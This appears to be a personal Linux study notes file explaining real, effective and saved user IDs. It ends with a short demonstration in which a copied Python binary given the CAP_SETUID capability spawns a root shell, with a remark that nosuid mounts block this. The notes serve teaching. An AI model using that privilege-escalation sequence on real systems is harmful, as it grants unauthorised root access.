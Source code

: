 # How is used
## the real user ID (RUID) of a process?

It identifies  the real  owner of  the process and  affects the  permissions for
sending signals.

A process  without superuser privileges can  signal another process only  if the
sender's RUID (or EUID) matches receiver's RUID (or SUID).
Because a child  process inherits its RUID  from its parent, a  child and parent
can signal each other.

<https://en.wikipedia.org/wiki/User_identifier#Real_user_ID>

## the effective user ID (EUID) of a process?

It's used for most access checks.
It's also used as the owner for files created by that process.

<https://en.wikipedia.org/wiki/User_identifier#Effective_user_ID>

## the Saved User ID (SUID) of a process?

It's  used when  a process  running with  elevated privileges  needs to  do some
unprivileged work temporarily; changing EUID  from a privileged value (typically
0) to some unprivileged value causes the privileged value to be stored in SUID.

Later, the process's EUID  can be set back to the value stored  in SUID, so that
elevated privileges can be restored.

<https://en.wikipedia.org/wiki/User_identifier#Saved_user_ID>

##
# How can a misconfigured file capability let an attacker escalate privileges?

    $ cd /tmp
    $ cp "$(which python)" python
    $ sudo setcap CAP_SETUID+ep python
    $ ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
    # whoami
    root

---

Note that this doesn't work on a filesystem mounted with the `nosuid` option.
That's why it  doesn't work if you  run the previous commands  from under `/run`
instead of `/tmp`, on Ubuntu 20.04:

    $ grep '/run ' /proc/mounts
    tmpfs /run tmpfs rw,nosuid,nodev,noexec,relatime,size=369988k,mode=755,inode64 0 0
                        ^----^
